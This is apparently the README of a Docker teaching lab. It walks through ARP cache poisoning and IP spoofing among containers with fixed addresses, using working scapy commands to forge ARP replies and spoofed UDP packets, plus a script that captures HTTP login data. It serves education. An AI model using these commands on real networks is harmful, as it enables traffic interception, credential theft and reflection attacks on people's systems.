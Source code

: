 # ARP Cache Poisoning & IP Spoofing Lab

This repository contains a minimal lab setup for demoing ARP cache poisoning and IP spoofing.

- [Wikipedia: ARP Spoofing](https://en.wikipedia.org/wiki/ARP_spoofing)
- [Wikipedia: IP Spoofing](https://en.wikipedia.org/wiki/IP_address_spoofing)

> The code contained in this repository is intentionally INSECURE and must NOT be used in production!

## Setup

- Install `docker` and `docker-compose`
- Clone this repo
- Run `docker-compose build` to build the images

You get three images for

- `victim`
- `attacker`
- `udpserv`

that are used by the containers described in the next section.

After the images are built, run the containers via the command:

```bash
$ docker-compose up -d
[+] Running 0/4
 ⠋ Container alice    Creating
 ⠋ Container evie     Creating
 ⠋ Container bob      Creating
 ⠋ Container udpserv  Creating
 ...
```

For accessing the containers, refer to the section at the end of this document.

If you need to explicitly rebuild the images use `docker-compose up -d --build`.

## Configuration

There are three containers based on two images

| Name      | IP address  | MAC address       | Role            | Service         |
| --------- | ----------- | ----------------- | --------------- | --------------- |
| `alice`   | 10.10.0.101 | 00:00:00:00:00:01 | Victim          | 80/tcp (http)   |
| `bob`     | 10.10.0.102 | 00:00:00:00:00:02 | Victim          | 80/tcp (http)   |
| `evie`    | 10.10.0.103 | 00:00:00:00:00:03 | Attacker        | -               |
| `udpserv` | 10.10.0.104 | 00:00:00:00:00:04 | UDP Echo Server | 9999/udp (echo) |

## Manual ARP Cache Poisoning

Tell `alice` that the ip address of `bob` resides at `evie's` mac address.

```python
$ scapy
...
>>> a = ARP()                      # create an ARP packet
>>> a.show()                       # have a look at the ARP packet
>>> a.op = 'is-at'                 # Unsolicited ARP
>>> a.pdst = '10.10.0.101'         # Alice's IP
>>> a.psrc = '10.10.0.102'         # Bob's IP
>>> a.hwdst = '00:00:00:00:00:01'  # Alice's MAC
>>> a.hwsrc = '00:00:00:00:00:03'  # Evie's MAC
>>> a.show()                       # check the values again
>>> send(a)                        # send the Packet (on L3, for convenience)
>>> ...
```

During the attack, monitor the system's ARP cache for changes via

```bash
$ watch -d -n1 "ip neigh show"
Every 1.0s: ip neigh show

10.10.0.102 dev eth0 lladdr 00:00:00:00:00:02 REACHABLE
...
```

If the attack was successful you should be able to see the MAC address of `bob's` ip changing to `evie's` MAC address.

> `watch` executes the command `ip neigh show` (show ARP cache) every second (`-n1`) and highlights changes (`-d`).

> Sometimes the ARP cache does not get overwritten immediately - so try another time if there is no success.

## Automatic ARP Cache Poisoning

> Notes for `spoofing.py`:
>
> - Reports captured HTTP data twice (incoming and outgoing - needs filtering)
> - Sometimes packets are not captured

To start the automatic ARP cache poisoning, run on `evie`:

```bash
$ python3 spoofing.py
... # wait for output
```

and let a client do an HTTP request (on `alice`):

```bash
# HTTP GET
$ curl "http://bob/login?user=myuser&pass=mysecret"
...
# HTTP POST
$ curl "http://bob/login" --data "user=myuser&pass=mysecret"
...
```

## Manual IP Spoofing

For the IP spoofing we use a echo server that just returns the request-data 10 times to the address contained in the IP-packet's `source` field.

> To check if the UDP Echo server is running you can `nc -u 10.10.0.104 9999` from any other machine in this lab setup and send some arbitrary data. You should receive 10-times your request.

On the attacker (`evie`) create a packet that is addressed to the echo server and contains e.g. `alice's` IP address in the `src`-field.

```python
$ scapy
...
# Create a IP/UDP/Data-Packet and send it via L3 to the Server
>>> send(IP(dst='10.10.0.104', src='10.10.0.101')/UDP(dport=9999)/Raw(load="abc"))
...
```

Monitor the incoming UDP data on `alice` using:

```bash
$ tcpdump -i eth0 -X udp
...
15:21:59.013318 IP udpserv.arplab_lab-net.9999 > alice.53: 24930 updateM+ [b2&3=0x6361] [24930a] [25187q] [25441n] [25187au] [|domain]
	0x0000:  4500 003a 6ed3 4000 4011 b6ff 0a0a 0068  E..:n.@.@......h
	0x0010:  0a0a 0065 270f 0035 0026 1518 6162 6361  ...e'..5.&..abca
	0x0020:  6263 6162 6361 6263 6162 6361 6263 6162  bcabcabcabcabcab
	0x0030:  6361 6263 6162 6361 6263                 cabcabcabc
...
```

## Common docker commands

### Control containers

```bash
# Bring containers up
$ docker-compose up -d
# Show logs of all containers
$ docker-compose logs -f
# Bring all containers down
$ docker-compose down
...
```

### List running containers

```bash
$ docker ps
CONTAINER ID   IMAGE             COMMAND            CREATED              STATUS              PORTS     NAMES
<id>           arplab-attacker   "bash"             About a minute ago   Up About a minute             evie
<id>           arplab-victim     "python3 app.py"   About a minute ago   Up About a minute             alice
<id>           arplab-victim     "python3 app.py"   About a minute ago   Up About a minute             bob
```

### Accessing a containers

Start a shell in one of the containers (by name of the container):

```bash
$ docker exec -it evie /bin/bash
root@evie:/#
```

## License

The work in this repository may be reused under the terms of [(CC BY-SA 4.0)](https://creativecommons.org/licenses/by-sa/4.0/).
